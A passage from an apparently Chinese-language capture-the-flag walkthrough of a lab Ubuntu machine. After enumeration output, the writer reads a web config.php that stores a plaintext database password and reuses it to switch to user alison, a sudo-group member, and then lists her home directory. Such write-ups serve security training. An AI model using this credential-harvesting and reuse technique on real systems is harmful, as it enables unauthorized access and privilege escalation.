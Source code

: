 ```
VERSION="16.04.6 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.6 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial


[-] Hostname:
ubuntu
```

还记得目标运行着Web服务吗？在/var/www/html目录下发现了config.php。

```
dark@ubuntu:/var/www/html$ ls -al
total 16
drwxr-xr-x 3 root   root   4096 Jul 28  2020 .
drwxr-xr-x 3 root   root   4096 Jul 28  2020 ..
-rwxrwxrwx 1 alison alison  123 Jul 28  2020 config.php
drwxr-xr-x 4 alison alison 4096 Jul 28  2020 poster
```

在该文件中发现用户alison的密码为：p4ssw0rdS3cur3!#

```
dark@ubuntu:/var/www/html$ cat config.php 
<?php 

        $dbhost = "127.0.0.1";
        $dbuname = "alison";
        $dbpass = "p4ssw0rdS3cur3!#";
        $dbname = "mysudopassword";
?>
```

切换到alison用户。该用户在sudo组内。

```
dark@ubuntu:/var/www/html$ su - alison
Password:
alison@ubuntu:~$ whoami
alison
alison@ubuntu:~$ id
uid=1000(alison) gid=1000(alison) groups=1000(alison),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

```
alison@ubuntu:~$ pwd
/home/alison
alison@ubuntu:~$ ls -al
total 40
drwxr-xr-x 4 alison alison 4096 Jul 28  2020 .
drwxr-xr-x 4 root   root   4096 Jul 28  2020 ..
-rw------- 1 alison alison 2444 Jul 28  2020 .bash_history
-rw-r--r-- 1 alison alison  220 Jul 28  2020 .bash_logout
-rw-r--r-- 1 alison alison 3771 Jul 28  2020 .bashrc
drwx------ 2 alison alison 4096 Jul 28  2020 .cache
drwxr-xr-x 2 alison alison 4096 Jul 28  2020 .nano
-rw-r--r-- 1 alison alison  655 Jul 28  2020 .profile
-rw-r--r-- 1 alison alison    0 Jul 28  2020 .sudo_as_admin_successful
-rw------- 1 alison alison   35 Jul 28  2020 user.txt
```